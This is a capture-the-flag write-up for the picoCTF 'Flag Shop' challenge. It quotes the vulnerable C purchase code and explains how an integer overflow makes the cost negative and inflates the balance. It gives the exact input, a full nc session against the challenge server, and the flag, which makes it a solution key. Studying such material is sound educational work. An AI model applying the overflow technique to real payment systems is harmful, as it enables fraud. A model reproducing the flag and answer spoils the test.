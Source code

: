# Flag Shop

## Write-Up

These kind of problems are known generally by their solution : overflowing variables to invert their values (use the compliments).

After checking the code, and more precisely the buying fake flags section, we can see some interesting things happening in this part :

```C
else if(menu == 2){
    printf("Currently for sale\n");
    printf("1. Defintely not the flag Flag\n");
    printf("2. 1337 Flag\n");
    int auction_choice;
    fflush(stdin);
    scanf("%d", &auction_choice);
    if(auction_choice == 1){
        printf("These knockoff Flags cost 900 each, enter desired quantity\n");
        int number_flags = 0;
        fflush(stdin);
        scanf("%d", &number_flags); //! Enter here input to make it negative
        if(number_flags > 0){
            int total_cost = 0;
            total_cost = 900*number_flags;
            printf("\nThe final cost is: %d\n", total_cost);
            if(total_cost <= account_balance){
                account_balance = account_balance - total_cost; //! it will become positive, to be added to the balance
                printf("\nYour current balance after transaction: %d\n\n", account_balance);
            }
            else{
                printf("Not enough funds to complete purchase\n");
            }
        }
```

As you can see, when we read the `number_flags`, it is being multiplied by 900 to get the `total_cost` which is then substracted to our `acount_balance`, so, if we can make the `total_cost` to be negative, we can instead of diminishing from our account, add to it.

From the overflow rules, when arriving to the vlues edges, the values are reverted to the compliment of it. 

But here we need to pass a positive amount, so the compliment part will come when multiplying by 900. 

Here are some experiments we made :

 - We have the overflow of `int` at `2147483648`
 - When entering `2147483647` as `number_flags`, we get `-900` as Final cost.
 - When entering `2147483646` as `number_flags`, we get `-1800` as Final cost.
 - When entering `2147483640` as `number_flags`, we get `-7200` as Final cost.

These values, when multiplied by -1 in calculating new balance, they are added to account and not substracted.

So, to get 100000, we need to enter the following :

100000/900 = 112

2147483648 - 112 = 2147483536

So our input is 2147483536, to enhance our account, and after that, we can buy the main flag :

```
└─$ nc jupiter.challenges.picoctf.org 44566

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2147483536

The final cost is: -100800

Your current balance after transaction: 101900

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
3
```

## Flag

picoCTF{m0n3y_bag5_68d16363}